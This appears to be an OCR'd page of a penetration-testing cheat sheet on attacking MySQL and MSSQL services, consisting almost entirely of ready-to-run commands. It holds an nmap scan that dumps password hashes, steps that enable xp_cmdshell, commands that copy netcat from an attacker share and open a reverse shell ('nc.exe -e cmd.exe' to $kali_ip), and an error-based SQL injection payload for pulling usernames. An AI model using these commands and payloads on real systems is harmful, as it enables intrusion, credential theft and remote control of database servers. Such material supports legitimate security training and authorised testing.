 ```html
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip
```

### MSSQL Login

[https://amandinegh.gitbook.io/cyberadventure/common-services/mssql-3306](https://amandinegh.gitbook.io/cyberadventure/common-services/mssql-3306)

```bash
python3 mssqlclient.py -windows-auth DOMAIN/user:password@$ip
```

```bash
use MASTER
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
EXEC sp_configure 'show advanced options', 0
RECONFIGURE
```

xp_cmdshell to actual shell

```bash
xp_cmdshell copy \\$kali_ip\SHARE\nc.exe C:\Users\Public\nc.exe
```

```bash
xp_cmdshell c:\Users\Public\nc.exe -e cmd.exe $kali_ip 80
```

### MSSQL Injection

xp_cmdshell (MSSQL to RCE)

[https://guide.offsecnewbie.com/5-sql](https://guide.offsecnewbie.com/5-sql)

[https://c0deman.wordpress.com/2013/06/25/mssql-injection-cheat-sheet/](https://c0deman.wordpress.com/2013/06/25/mssql-injection-cheat-sheet/)

[https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

### SQL Injection to RCE

Peep at usernames in the table.

```bash
SELECT username FROM users WHERE username = '' AND 1= (SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM users LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)-- -
```
